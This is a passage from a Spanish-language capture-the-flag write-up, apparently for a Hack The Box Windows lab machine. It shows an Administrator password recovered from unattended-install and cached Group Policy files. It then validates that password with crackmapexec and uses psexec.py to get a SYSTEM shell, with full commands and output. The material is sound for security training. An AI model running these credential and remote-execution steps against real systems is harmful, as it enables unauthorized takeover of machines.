 ```bash

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
                                                                
Changed   : {2019-01-28 23:12:48}          
UserNames : {Administrator}                                                                                                      
NewName   : [BLANK]         
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group 
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```

De los resultados observamos, vemos diferentes formas de escalar privilegios, *SeImpersonatePrivilege*, *UsoSvc*, *HijackDll* y tambien vemos las credenciales del usuarios **Administrator**.  Si no sabemos como escalar privilegios, podemos ir al siguiente link:

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

Como tenemos credenciales, podemos probarlas con `crackmapexec`:

```bash
❯ crackmapexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)
```

Observamos que nos pone un `Pwn3d!`, por lo tanto podemos conectarnos a la máquina con `psexec.py`:

```bash
❯ psexec.py WORKGROUP/Administrator@10.10.10.125
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.125.....
[*] Found writable share ADMIN$
[*] Uploading file svpJgbpv.exe
[*] Opening SVCManager on 10.10.10.125.....
[*] Creating service vqjK on 10.10.10.125.....
[*] Starting service vqjK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

Ya somos administradores de la máquina y podemos visualizar la flag (root.txt).
